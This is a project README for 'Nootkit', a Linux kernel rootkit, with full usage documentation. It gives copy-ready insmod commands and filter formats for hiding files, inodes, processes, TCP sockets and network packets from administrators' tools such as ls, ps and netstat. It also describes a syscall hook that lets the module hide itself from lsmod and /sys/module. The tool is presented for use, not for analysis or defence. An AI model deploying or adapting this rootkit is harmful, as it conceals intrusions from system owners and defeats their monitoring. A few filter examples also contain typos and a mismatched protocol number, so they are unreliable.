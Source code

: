 # Nootkit

Noot noot?
![noot?](https://i.kym-cdn.com/entries/icons/original/000/040/642/terrifiednootnoot.jpg)

A basic rootkit with resource hiding capabilities.

You are welcome to browse the [story-oriented documentation](docs/section-1.md)
or give it a go.

## Compiling

Currently only Ubuntu 22 LTS kernels of version 5.15.0-76 are supported -
and to compile the module you'll have to get the corresponding headers as they aren't
included.

Headers are assumed to be located at `kernel-headers/linux-headers-5.15.0-76-generic`,
in the same exact structure as they are present on Ubuntu machines at
`/lib/modules/5.15.0-76-generic`.

## Usage

`nootkit` can receive a configuration through module parameters -
which are at the moment not exposed after the module has been loaded.

An example `insmod` command to set certain filenames and inodes to be hidden
from common usermode APIs is:

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,bigboy \
hide_inodes=138210,17635,1337
```

### Configuration

The kernel space address of `kallsyms_lookup_name` must be provided to the module at load time,
as it is used to locate other unexported symbols.

Possible module arguments are:

- `kallsyms_lookup_name`: Must be present, can be obtained via `/proc/kallsyms` as shown above
- `hide_filenames`: Comma-separated list of file names and absolute paths to hide from usermode dir listings
- `hide_inodes`: Comma-separated list of inode numbers to hide from usermode dir listings
- `hide_sockets`: Comma-separated list of socket filter strings following the format (explained
  [below](#socket-filter-format)) - IPv4 socket matching this filter will be hidden from `netstat` commands.
- `hide_packets`: Comma-separated list of packet filter strings following the format (explained [below](#packet-filter-format))

You are also welcome to check out the [makefile](Makefile) for some semi-automatic tests.

#### Socket Filter Format

Pretty simple really, just follow this template:

```txt
IP PROTO = 6; LOCAL = 0.0.0.0/0.0.0.0:1300-1400; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;
```

Where `PROTO` is a valid IP protocol number, although only TCP sockets are supported.
`PROTO` 0 is magic and matches any protocol number.

`LOCAL` describes the local IP/Mask:PortRangeStart-PortRangeEnd, and `FOREIGN` does the same for... The foreign address.

Port ranges are *inclusive*. Spaces aren't mandatory anywhere.

#### Packet Filter Format

A lot like the socket filter format above (even represented the same in memory!), but a little more detailed:

```txt
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1300-1350;

# Or ARP for example

ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535;
```

Again the `PROTO`s are each valid protocol numbers for their respective protocol, and 0 is magic and matches all protocols.
Note that `ETH PROTO` parses input as *hexadecimal*.

## Features

### Hiding Files From Dir Listings

Examples:

#### Hide all files named `hello`, no matter the path, from dir listings

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello
```

#### In addition, hide the paths `/root/bigboy` and `/home/john/wayne`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,/root/bigboy,/home/john/wayne
```

#### Hide all files with an inode number of `524290`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_inodes=524290
```

### Hiding Processes From Various Utilities

Hiding processes from various utilities including `ps` can be done by hiding the path `/proc/[pid]` corresponding
to the process. There is no specific API at the moment specific to hiding processes.

For example:

#### Hide the processes with PIDs `7047` and `682` from `ps`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=/proc/7047,/proc/682
```

### Hiding TCP Sockets From Various Utilities

Sockets can be hidden from `netstat` and other utilities by specifying their properties in the socket filter format
shown [above](#socket-filter-format).

Example:

#### Hide all sockets bound to local TCP ports 10 to 30, on the local address 192.168.122.122

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_sockets=\"PROTO = 1; LOCAL = 192.168.122.122/255.255.255.255:10-30; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;\""
```

### Hiding Packets

Packets can be hidden at a very low level - neither `AF_PACKET` sockets or even XDP BPF running in the generic
context will see them.
Packets can be hidden by specifying their properties in the packet filter format shown [above](#packet-filter-format).

Example:

#### Hide all TCP packets directed to port 1337, and all ARP packets in general

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_packets=\" \
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1337-1337;, \
ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETHDST = 00:00:00:00:00:00; IPPROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535; \
\""
```

### Hiding The Module Itself

`nootkit`'s self hiding feature has two aspects:

- Hiding from `/proc/modules` and therefore `lsmod`.

- Removing the `/sys/module` directory associated with the module.

To allow removing the module, a hook is installed for the syscall `delete_module`, such that running `rmmod -f nootkit`
*once* disables the hiding of the module from both locations, and running it again removes the module regularly.
See the reason for this implementation in [src/arch/x86_64/hide/module_sys.c](src/arch/x86_64/hide/module_sys.c).

The `-f` flag is necessary, since without it `rmmod` checks the directory `/sys/module` for details about the requested
module to remove, and `nootkit`'s hiding from it prevent's `rmmod` from following up with a `delete_module` syscall.

